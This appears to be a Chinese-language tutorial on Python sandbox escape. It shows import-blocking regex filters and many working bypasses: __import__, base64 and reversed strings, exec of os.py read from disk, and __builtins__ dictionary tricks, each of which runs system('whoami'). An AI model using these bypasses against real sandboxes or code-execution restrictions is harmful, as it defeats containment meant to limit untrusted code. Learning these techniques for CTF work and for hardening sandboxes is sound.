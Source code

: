 ## 函数导入限制和绕过
### import
一个受限制的环境，禁止导入敏感的包是最常见的方法，所以import一般是最容易被限制掉。

```python
import re,sys

pattern  = re.compile('import\s+(os|subprocess)')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这种简单的限制不能导入包的形式，可以中间添加空格来绕过，或者使用其他方式导入包，比如

```python
__import__('os').system('ls')
```
```python
__import__
importlib
```

还可以使用编码的方式绕过对导入包关键字的检查，比如使用base64，python2中适用
```python
>>> import base64

>>> base64.b64encode("os")
'b3M='
>>> flag = __import__(base64.b64decode('b3M='))
>>> flag.system('whoami')
misaki\user

>>> import importlib

>>> flag = importlib.import_module('b3M='.decode('base64'))
>>> flag.system('whoami')

misaki\user
```
![01_02-01](../../../image/编码/Python/沙箱逃逸/01_02-01.png)

或者使用字符串拼接的方式
```python
>>> __import__('o'+'s').system('who'+'ami')
aiuser
0
```

字符串f翻转截取
```python
>>> __import__('so'[::-1]).system('whoami')
aiuser
0
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
aiuser
```

再万一，还可以这么禁止
```python
import re,sys

pattern  = re.compile('import')
match = re.search(pattern,sys.args[1])
if match:
    print("forbidden module import detected")
    raise Exception
```

这样的话，不管怎么换导入函数都会被禁止。那么是否有不直接使用import关键字来导入的方式。既然需要导入也就是只需要能执行对应的库就可以。

使用execfile，不过在这之前需要判断得到库的物理路径。如果sys模块没被禁用的话，就可以使用sys来获取物理路径。这种方式只能用在python2中，python3取消了execfile
```python
>>> execfile('/usr/lib/python2.7/os.py')  #Linux系统下默认路径
>>> system('whoami')
aiuser
```

python3可以利用读取文件，配合exec来执行
```python
>>> f = open(r'/usr/lib/python3.6/os.py','r')
>>> exec(f.read())
>>> system('whoami')
aiuser

# 不可以执行利用 exec 打开读取，exec 需要执行的是其中的内容，直接打开的时候 exec 执行的就是读取文件操作
exec("open('/usr/lib/python3.6/os.py','r').read()")
```

使用with open的形式
```python
>>> with open(r'/usr/lib/python3.6/os.py','r') as f:
...     exec(f.read())
...
>>> system('whoami')
aiuser
```

或者使用字符串拼接的方式，但是需要跟exec，eval一起利用。
```python
>>> exec('imp'+'ort'+' '+'os;'+'os.system("whoami")')
aiuser
```
这里 exec 不需要导入就可以直接引用，当然不需要导入就可以引用的函数不止这一个，因为一个内建函数的原因。

markdown 中 _ 下划线结尾会导致下划线后面的内容变成斜体，所以这里使用加号拼接字符串

### `builtins` 内建模块

`__builtins__`即时引用，在程序还为执行代码的时候就已经加载进来了。此模块并不需要导入，可以在任何模块中执行引用。
比如在python2中
![01_03-01](../../../image/编码/Python/沙箱逃逸/01_03-01.png)

python3中
![01_03-02](../../../image/编码/Python/沙箱逃逸/01_03-02.png)

所以我们通过dict属性来调用这些函数，例如如下调用exec来执行其中的python语句。
```python
>>> __builtins__.__dict__['exec']("print('ok')")
ok
```
通过内建函数来导入包
```python
>>> __builtins__.__dict__['__import__']('os').system('whoami')
aiuser

```

万一跟上面一样，禁用了import，当然还可以使用拼接的方式
```python
>>> __builtins__.__dict__['__imp'+'ort__']('os').system('whoami')
aiuser
```
如果在`__builtins__`中，部分需要引用的函数被删除。不能直接用dict属性来调用，可以使用reload来重新加载
```python
reload(__builtin__)
```
如果仔细看上面的图片就可以看到，在python2中reload也是__builtin__的内建函数。如果此函数被删除在python2中也不可以直接引用了。python3中reload不再是内建函数，3.4之前是imp模块下的函数，而之后是importlib模块下的函数。

所以可以直接利用imp模块来导入，python2也可以利用。
```python
>>> import imp
>>> imp.reload(__builtins__)
<module '__builtin__' (built-in)>
```
在所上的导入模块中，系统的包都在一个默认路径下，被sys的modules存储记录。如果把其中的os模块删除就不能再去加载os模块了，这时候需要手动把os重新加载进去。一般尝试默认路径，或者sys查看存储路径
```python
>>> import sys
>>> sys.modules['os']='/usr/lib/python3.6/os.py'
>>> import os
>>>
```
